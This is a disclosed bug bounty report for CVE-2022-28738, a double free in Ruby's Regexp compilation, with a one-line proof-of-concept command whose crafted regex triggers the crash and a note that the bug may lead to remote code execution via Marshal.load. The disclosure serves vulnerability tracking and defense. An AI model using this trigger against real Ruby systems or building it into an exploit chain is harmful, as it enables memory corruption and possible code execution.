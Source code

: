 # CVE-2022-28738: Double free in Regexp compilation

## Report Details
- **Report ID**: 1549636
- **URL**: https://hackerone.com/reports/1549636
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-25T03:55:55.651Z
- **Disclosed**: 2022-05-28T18:18:28.200Z

## Reporter
- **Username**: piao
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Due to a bug in the Regexp compilation process, creating a Regexp object with a crafted source string could cause the same memory to be freed twice. This is known as a “double free” vulnerability. Note that, in general, it is considered unsafe to create and use a Regexp object generated from untrusted input. In this case, however, following a comprehensive assessment, we treat this issue as a vulnerability.

poc:
```
ruby -e '/(\\x15\\x17\\xE2\\xF5\\xF5\\xF5\\xC2\\x04\\x08J,\\x00\\xD0\\x00\\x00(?(1)\\xF5\\xF5\\xF5\\xD7\\xF5\\xF5\\xF5\\x87\\x04\\xFA555\\xBEJ,\\x18FF\\x15\\xFF|\\x03\\x01\\x00\\x01\\x00\\x00\\x8F\r|)44\\x00\\x8F\r|)+/m'
```

## Impact

may lead to a RCE attack cooperate with marshal.load

## Attachments
No attachments
